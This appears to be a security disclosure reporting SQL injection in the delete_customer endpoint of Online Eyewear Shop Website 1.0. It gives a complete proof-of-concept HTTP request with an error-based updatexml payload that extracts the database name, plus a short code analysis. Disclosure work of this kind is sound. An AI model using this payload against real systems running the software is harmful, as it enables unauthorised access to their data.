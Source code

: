 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Users.php?f=delete_customer

## Description:
The online eyewear store website 1.0 has a SQL injection attack in the id parameter in the route /oews/classes/Users.php?f=delete_customer. 
Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Users.php?f=delete_customer HTTP/1.1
Host: localhost
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p65p1sp36htfqevfnhij1jvtie
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

id=1 and updatexml(1,concat(0x7e,(database())),3) #
```

Get the database name directly through the error report: oews_db

![CleanShot 2025-04-03 at 11 25 40@2x](https://github.com/user-attachments/assets/5446d8bd-c07a-4a21-a41f-d31cdab6a5d7)


## Code Analysis
The id parameter is controllable and directly introduced into the SQL statement, causing a SQL injection vulnerability.
![CleanShot 2025-04-03 at 11 26 09@2x](https://github.com/user-attachments/assets/c5d3de8e-37a9-44cf-acd8-f61e1c70b1b5)



